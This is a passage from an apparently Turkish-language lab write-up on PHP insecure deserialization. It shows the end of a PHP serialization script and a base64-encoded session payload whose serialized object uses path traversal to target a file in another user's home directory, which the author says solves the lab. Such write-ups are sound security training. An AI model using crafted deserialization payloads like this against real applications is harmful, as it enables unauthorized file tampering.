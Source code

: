 ```php
        serialize($payload->username)
    )
    );

?>
```

Bu kod sayesinde elde ettiğimiz çıktıyı uygulamamızda kullanabiliriz. 

```php
Output:
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTg6InRlbXBsYXRlX2ZpbGVfcGF0aCI7czo4OiJ0ZXN0LnR4dCI7czoxNDoibG9ja19maWxlX3BhdGgiO3M6Nzk6Ii4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3D
```

Bu şekilde yeni session objemizi gönderince lab’ı başarıyla çözmüş oluyoruz. 

![Untitled](0x0D-e7c75cda4af14d9f8c7d57729ec14f3a/Untitled-13.png)

# Lab: Developing a custom gadget chain for PHP deserialization

![Untitled](0x0D-e7c75cda4af14d9f8c7d57729ec14f3a/Untitled-14.png)

